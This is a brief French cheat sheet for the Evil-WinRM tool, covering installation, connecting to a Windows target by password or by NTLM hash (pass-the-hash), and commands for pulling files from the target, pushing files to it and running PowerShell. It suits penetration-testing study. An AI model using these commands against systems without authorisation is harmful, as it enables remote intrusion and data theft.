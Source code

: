 # Evil-WinRM - Résumé et utilisation

## Présentation
Evil-WinRM est un outil permettant d'obtenir un accès interactif à une machine Windows via WinRM (Windows Remote Management).

## Installation
# Kali Linux : peut nécessiter une installation
sudo gem install evil-winrm

## Connexion à une machine cible
# Accès avec un utilisateur et un mot de passe
evil-winrm -i <IP_CIBLE> -u <USER> -p <PASSWORD>

# Accès avec un hash NTLM (Pass-The-Hash)
evil-winrm -i <IP_CIBLE> -u <USER> -H <NTLM_HASH>

## Commandes utiles une fois connecté
# Lister les fichiers du répertoire courant
dir

# Changer de répertoire
cd <Dossier>

# Télécharger un fichier depuis la machine cible
download <nom_du_fichier>

# Envoyer un fichier vers la machine cible
upload <fichier_local> <destination>

# Exécuter un script PowerShell
powershell -c "<COMMAND>"
